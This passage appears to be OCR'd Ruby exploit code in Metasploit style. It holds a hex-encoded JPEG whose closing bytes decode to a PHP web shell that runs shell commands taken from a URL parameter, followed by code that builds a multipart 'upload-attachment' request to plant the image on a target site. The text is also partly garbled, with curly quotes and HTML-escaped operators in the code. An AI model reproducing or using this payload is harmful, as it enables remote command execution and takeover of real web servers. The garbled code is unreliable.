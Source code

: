```

20 38 32 0A FF DB 00 43 00 06 04 04 05 04 04 06 05 05 05 06 06 06 07 09 0E 09 09

08 08 09 12 0D 0D 0A 0E 15 12 16 16 15 12 14 14 17 1A 21 1C 17 18 1F 19 14 14 1D

27 1D 1F 22 23 25 25 25 16 1C 29 2C 28 24 2B 21 24 25 24 FF DB 00 43 01 06 06 06

09 08 09 11 09 09 11 24 18 14 18 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24

24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24

24 24 24 24 24 24 24 FF C0 00 11 08 00 C0 01 06 03 01 22 00 02 11 01 03 11 01 FF

C4 00 1F 00 00 01 05 01 01 01 01 01 01 00 00 00 00 00 00 00 00 01 02 03 04 05 06

07 08 09 0A 0B FF C4 00 B5 10 00 02 01 03 03 02 04 03 05 05 04 04 00 00 01 7D 01

02 03 00 04 11 05 12 21 31 41 06 13 51 61 07 22 71 14 32 81 91 A1 08 23 42 B1 C1

15 52 D1 F0 24 33 62 72 82 09 0A 16 17 18 19 1A 25 26 27 28 29 2A 34 35 36 37 38

39 3A 43 44 45 46 47 48 49 4A 53 54 55 56 57 58 59 5A 63 64 65 66 67 68 69 6A 73

74 75 76 77 78 79 7A 83 84 85 86 87 88 89 8A 92 93 94 95 96 97 98 99 9A A2 A3 A4

A5 A6 A7 A8 A9 AA B2 B3 B4 B5 B6 B7 B8 B9 BA C2 C3 C4 C5 C6 C7 C8 C9 CA D2 D3 D4

D5 D6 D7 D8 D9 DA E1 E2 E3 E4 E5 E6 E7 E8 E9 EA F1 F2 F3 F4 F5 F6 F7 F8 F9 FA FF

C4 00 1F 01 00 03 01 01 01 01 01 01 01 01 01 00 00 00 00 00 00 01 02 03 04 05 06

07 08 09 0A 0B FF C4 00 B5 11 00 02 01 02 04 04 03 04 07 05 04 04 00 01 02 77 00

01 02 03 11 04 05 21 31 06 12 41 51 07 61 71 13 22 32 81 08 14 42 91 A1 B1 C1 09

23 33 52 F0 15 62 72 D1 0A 16 24 34 E1 25 F1 17 18 19 1A 26 27 28 29 2A 35 36 37

38 39 3A 43 44 45 46 47 48 49 4A 53 54 55 56 57 58 59 5A 63 64 65 66 67 68 69 6A

73 74 75 76 77 78 79 7A 82 83 84 85 86 87 88 89 8A 92 93 94 95 96 97 98 99 9A A2

A3 A4 A5 A6 A7 A8 A9 AA B2 B3 B4 B5 B6 B7 B8 B9 BA C2 C3 C4 C5 C6 C7 C8 C9 CA D2

D3 D4 D5 D6 D7 D8 D9 DA E2 E3 E4 E5 E6 E7 E8 E9 EA F2 F3 F4 F5 F6 F7 F8 F9 FA FF

DA 00 0C 03 01 00 02 11 03 11 00 3F 00 3C 3F 3D 60 24 5F 47 45 54 5B 30 5D 60 3B

3F 3E

]

img_data = [img_data.join].pack(‘H*’)

img_name += ‘.jpg’

```
boundary = "#{rand_text_alphanumeric(rand(10) + 5)}"
post_data = "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"name\"\r\n"
post_data &lt;&lt; "\r\n#{img_name}\r\n"
post_data &lt;&lt; "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"action\"\r\n"
post_data &lt;&lt; "\r\nupload-attachment\r\n"